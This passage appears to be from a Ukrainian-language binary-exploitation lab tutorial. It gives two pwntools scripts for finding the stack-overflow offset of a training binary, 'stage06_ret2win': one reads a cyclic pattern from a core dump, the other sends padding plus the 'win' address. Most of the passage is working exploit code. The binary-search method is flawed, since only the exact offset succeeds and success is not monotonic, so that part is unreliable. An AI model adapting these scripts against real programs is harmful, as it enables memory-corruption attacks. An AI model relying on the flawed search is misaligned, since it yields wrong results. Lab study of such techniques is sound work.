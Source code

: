 ### Експеримент: Знаходження offset через краш

**Метод 1: Циклічний паттерн**

```python
#!/usr/bin/env python3
from pwn import *

# Генеруємо унікальний паттерн
pattern = cyclic(200)
print(f"Pattern: {pattern[:50]}...")

# Запускаємо і дивимося де крашне
io = process('../build/stage06_ret2win')
io.sendlineafter(b'name\n', pattern)

# Чекаємо краш
io.wait()

# Якщо є core dump
try:
    core = io.corefile
    rip = core.rip
    log.info(f"RIP at crash: {hex(rip)}")

    # Знаходимо offset
    offset = cyclic_find(rip)
    log.success(f"Offset: {offset}")
except:
    log.warning("Core dump недоступний")
```

**Метод 2: Binary search**

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'error'

def test_offset(offset, target_addr):
    """Перевіряє чи працює даний offset"""
    try:
        io = process('../build/stage06_ret2win')
        payload = b'A' * offset + p64(target_addr)
        io.sendlineafter(b'name\n', payload)
        response = io.recvall(timeout=1)
        io.close()
        return b'FLAG' in response
    except:
        return False

elf = ELF('../build/stage06_ret2win', checksec=False)
win = elf.symbols['win']

# Binary search
low, high = 50, 100
while low < high:
    mid = (low + high) // 2
    if test_offset(mid, win):
        print(f"[+] Працює з offset {mid}")
        high = mid
    else:
        low = mid + 1

```
